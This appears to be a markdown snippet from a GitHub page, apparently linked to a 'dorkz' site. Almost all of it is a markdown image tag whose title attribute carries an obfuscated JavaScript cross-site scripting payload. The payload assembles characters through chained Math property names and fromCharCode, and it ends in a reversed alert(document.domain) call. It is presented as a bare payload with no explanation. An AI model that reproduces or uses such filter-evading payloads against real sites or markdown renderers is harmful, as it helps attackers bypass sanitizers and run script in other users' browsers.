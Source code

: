 # https://paxnull.github.io/dorkz/

this is an ![alt text](https://xssss.com/ "Math.LN2.valueOf,Math.seeds.splice,Math.E.valueOf,Math.sin.name.at,Math.seeds.unshift,Math.LOG2E.valueOf,Math.cos.name.at,Math.seeds.unshift,Math.LN2.valueOf,Math.imul.name.at,Math.seeds.unshift,Math.LN2.valueOf,Math.trunc.name.at,Math.seeds.unshift,Math.LN2.valueOf,Math.asin.name.at,Math.seeds.unshift,Math.LN2.valueOf,Math.cos.name.at,Math.seeds.unshift,Math.LOG2E.valueOf,Math.cos.name.at,Math.seeds.unshift,Math.LN2.valueOf,Math.log.name.at,Math.seeds.unshift,Math.LN2.valueOf,Math.clz32,Math.sin.name.constructor.fromCharCode,Math.seeds.unshift,Math.E.valueOf,Math.sin.name.at,Math.seeds.unshift,Math.LN2.valueOf,Math.round.name.at,Math.seeds.unshift,Math.E.valueOf,Math.trunc.name.at,Math.seeds.unshift,Math.LN2.valueOf,Math.trunc.name.at,Math.seeds.unshift,Math.LN2.valueOf,Math.exp.name.at,Math.seeds.unshift,Math.LN2.valueOf,Math.round.name.at,Math.seeds.unshift,Math.seeds.at,Math.seeds.constructor,Math.seeds.join,Math.sin.constructor,Math.seeds.map,Math.seeds.pop.apply,Math.sin.name.constructor,Math.seeds.constructor.from,Math.seeds.reverse.call,Math.seeds.join.bind,Math.seeds.push,Math.seeds.at,Math.seeds.constructor,Math.seeds.unshift,Math.seeds.pop,Math.seeds.map,Math.seeds.shift.call,Math.seeds.unshift,Math.seeds.at,Math.seeds.constructor,Math.seeds.join,Math.sin.constructor,Math.seeds.map#//)niamod.tnemucod(trela")


